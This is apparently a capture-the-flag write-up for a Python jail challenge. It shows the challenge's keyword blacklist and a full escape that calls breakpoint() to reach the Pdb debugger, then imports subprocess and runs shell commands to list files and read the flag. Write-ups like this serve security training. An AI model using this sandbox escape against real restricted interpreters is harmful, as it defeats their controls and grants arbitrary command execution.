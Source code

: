 # Baby's First Pyjail [295 Solves]

## Description

> @windex told me that jails should be sourceless. So no source for you.
>
> Author: SteakEnthusiast
>
> `nc 35.226.249.45 5000`

## Solution

```console
$ nc 35.226.249.45 5000
>>> os
try harder
>>> import
try harder
>>> system
try harder
>>> print(globals())
{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7fc5a42fbc10>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/home/ctfuser/app/chal.py', '__cached__': None, 'blacklist': ['import', 'exec', 'eval', 'os', 'open', 'read', 'system', 'module', 'write', '.'], 'cmd': 'print(globals())', 'i': '.'}
```

It's Python interpreter and `import`, `os` and `system`, etc... is not allowed by blacklist.
However, [breakpoint](https://docs.python.org/3/library/functions.html#breakpoint) can be used.

```python
>>> breakpoint()  # change from restricted Python interpreter to Pdb debugger
--Return--
(Pdb) import subprocess
(Pdb) subprocess.run("ls -la", shell=True, capture_output=True).stdout
b'total 16\ndr-xr-xr-x 2 nobody nogroup 4096 Jan 13 00:50 .\ndrwxr-xr-x 3 nobody nogroup 4096 Jan 13 00:50 ..\n-r-xr-xr-x 1 nobody nogroup  321 Jan 13 00:49 chal.py\n-r-xr-xr-x 1 nobody nogroup   34 Jan 13 00:50 flag\n'
(Pdb) subprocess.run("cat flag", shell=True, capture_output=True)
CompletedProcess(args='cat flag', returncode=0, stdout=b'uoftctf{you_got_out_of_jail_free}\n', stderr=b'')
```

## Flag

uoftctf{you_got_out_of_jail_free}
